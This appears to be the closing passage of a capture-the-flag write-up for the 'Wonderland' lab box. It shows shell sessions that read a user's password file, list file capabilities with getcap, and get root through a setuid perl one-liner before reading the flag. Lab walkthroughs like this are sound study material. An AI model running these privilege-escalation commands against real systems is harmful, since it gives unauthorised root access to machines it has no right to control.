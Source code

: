 ```bash
hatter@wonderland:/home/rabbit$ cd ../hatter/
hatter@wonderland:/home/hatter$ ls -a
.  ..  .bash_history  .bash_logout  .bashrc  .local  .profile  password.txt
hatter@wonderland:/home/hatter$ cat password.txt 
[REDACTED PASSWRD]
hatter@wonderland:/home/hatter$ sudo -l
[sudo] password for hatter: 
Sorry, user hatter may not run sudo on wonderland.
hatter@wonderland:/home/hatter$
```

at this point I've been enumerating for quite some time but I hit a wall for the second time, couple hours passsed and I've decided to peak at a write up again, I found out that I should look for files with `capabilities(7)`, again something little obvious. but I probably wouldn't have known it since even tho I always heard of such things, I never interacted or took the time to get familliar with them

after some digging around I found a utlity called `getccap` that can display files with special capabilites, you can read it's man page to know more about it

```bash
hatter@wonderland:/home/hatter$ getcap -r / 2> /dev/null 
/usr/bin/perl5.26.1 = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/perl = cap_setuid+ep 
hatter@wonderland:/home/hatter$ ls -lh /usr/bin/perl5.26.1 /usr/bin/perl
-rwxr-xr-- 2 root hatter 2.1M Nov 19  2018 /usr/bin/perl
-rwxr-xr-- 2 root hatter 2.1M Nov 19  2018 /usr/bin/perl5.26.1
```

after looking up those executables in [gtfo bins](https://gtfobins.github.io/) I found a command I can use to spawn a root shell, and it worked on both binaries!

```bash
hatter@wonderland:~$ /usr/bin/perl5.26.1 -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
# whoami
root
# 
```

### I'm groot

now that I'm root we can just get the `root.txt` flag

```bash
# cat /home/alice/root.txt
thm{REDACTED}
# 
```

### conclusion

wonderland was a really nice box, it had me banging my head against the wall couple times but I learned some new tricks that will probably come handy in the future, I hope you did as well, hopefully next time there would be less to no peaking at all
